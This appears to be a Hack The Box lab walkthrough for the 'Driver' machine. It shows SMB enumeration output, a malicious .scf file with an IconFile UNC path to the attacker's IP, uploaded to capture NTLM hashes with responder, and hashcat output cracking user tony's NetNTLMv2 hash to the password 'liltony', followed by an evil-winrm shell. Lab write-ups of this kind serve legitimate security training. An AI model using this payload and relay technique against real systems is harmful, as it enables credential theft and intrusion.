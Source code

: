 #  Initial shell as 'tony' user
## From [[Driver/10 - Common Enumeration]] it is discovered that SMB signing is disabled
From [[Driver/10 - Common Enumeration]] it is discovered that SMB signing is disabled.
```bash
Host script results:
|_clock-skew: mean: 6h59m29s, deviation: 3s, median: 6h59m26s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-04T17:41:25
|_  start_date: 2021-10-04T14:45:24

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   213.88 ms 10.10.14.1
2   213.94 ms 10.10.11.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.56 seconds
```
Also from crackmapexec,
![[Pasted image 20211007183540.png]]
## If SMB signing is disabled we can do NTLM relay attack
If SMB signing is disabled we can do NTLM relay attack to get user hash.To perform this attack we will first start `responder` tool in and on http://10.10.11.106/fw_up.php we will upload Shell Command File `.scf` file with following contents 
```bash
[Shell]

Command=2

IconFile=\\10.10.14.98\share\dfsdfsdf.scf # IP address with which responder is started

[Taskbar]

Command=ToggleDesktop
```
Note: SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share as explained in [link](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).
As soon as we upload a `.scf.` with  filename starting from `@` (so that file is placed first in folder and executed as soon as it is uploaded).
## Uploading `.scf` to get NTLM Hash via responder
Uploading `.scf` to get NTLM Hash via responder listening via command ` sudo responder -I tun0 -wrf`.
![[Pasted image 20211007185038.png]]
## Cracking this hash via hashcat
```bash
~/Dropbox/Documents/htb/boxes/driver ❯ hashcat -m 5600  --force hash.hash /home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4460  CPU @ 3.20GHz, 5716/5780 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

TONY::DRIVER:c61fbe0c35b5c167:03be8d54cb224656162cfdd067b82a04:010100000000000032b8dcee79bbd7019a63b0aca1ef19a100000000020000000000000000000000:liltony

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: TONY::DRIVER:c61fbe0c35b5c167:03be8d54cb224656162cf...000000
Time.Started.....: Thu Oct  7 10:56:54 2021, (1 sec)
Time.Estimated...: Thu Oct  7 10:56:55 2021, (0 secs)
Guess.Base.......: File (/home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   484.2 kH/s (3.49ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 32768/14344385 (0.23%)
Rejected.........: 0/32768 (0.00%)
Restore.Point....: 28672/14344385 (0.20%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: softball27 -> eatme1

Started: Thu Oct  7 10:56:32 2021
Stopped: Thu Oct  7 10:56:56 2021
```
cracked hash `TONY::DRIVER:c61fbe0c35b5c167:03be8d54cb224656162cfdd067b82a04:010100000000000032b8dcee79bbd7019a63b0aca1ef19a100000000020000000000000000000000:liltony`
which password `liltony`.
## Getting shell as tony via evil-winrm
![[Pasted image 20211007185353.png]]


